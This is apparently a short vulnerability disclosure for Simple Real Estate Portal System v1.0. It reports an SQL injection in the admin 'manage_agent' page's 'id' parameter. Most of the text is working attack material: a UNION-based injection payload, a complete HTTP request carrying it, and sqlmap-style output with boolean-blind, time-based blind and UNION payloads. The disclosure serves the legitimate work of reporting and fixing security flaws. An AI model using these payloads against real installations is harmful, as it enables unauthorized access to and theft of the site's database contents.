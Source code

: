 ## Simple Real Estate Portal System v1.0 has a SQL injection vulnerability

vendors: https://www.sourcecodester.com/php/15184/simple-real-estate-portal-system-phpoop-free-source-code.html

Vulnerability file: /reps/admin/?page=agents/manage_agent&id=

Vulnerability location: /reps/admin/?page=agents/manage_agent&id= , id

[+] Payload: /reps/admin/?page=agents/manage_agent&id=-6193%27%20UNION%20ALL%20SELECT%201,2,database(),4,5,6,7,CONCAT(0x71767a6b71,0x7771447369794d5759634665645151594641457976797a594e4572717a514845527a5456534d416b,0x7176787871),9,10,11,12,13,14--+ //id is Injection point 

```
GET /reps/admin/?page=agents/manage_agent&id=-6193%27%20UNION%20ALL%20SELECT%201,2,database(),4,5,6,7,CONCAT(0x71767a6b71,0x7771447369794d5759634665645151594641457976797a594e4572717a514845527a5456534d416b,0x7176787871),9,10,11,12,13,14--+- HTTP/1.1
Host: 192.168.1.19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=b7n0d4rju88m3p50kmalnvn6ti
Connection: close

//id is Injection point
```

![image](https://user-images.githubusercontent.com/54017627/160313104-c9ee55fd-866d-4149-8b6d-a56b8e7dedb3.png)

```sql
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: page=agents/manage_agent&id=1' AND 9572=9572 AND 'Lnjk'='Lnjk

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=agents/manage_agent&id=1' AND (SELECT 2188 FROM (SELECT(SLEEP(5)))fVBu) AND 'ffQM'='ffQM

    Type: UNION query
    Title: Generic UNION query (NULL) - 14 columns
    Payload: page=agents/manage_agent&id=-1480' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x717a6a6b71,0x6a49765a49784c4b45514e6d766369555a78597a6a6267764d5653626e7076744250516f59764b66,0x71786b6a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
```

![image](https://user-images.githubusercontent.com/54017627/160313056-6d7ec86f-495c-459d-9990-9bbf76e52839.png)

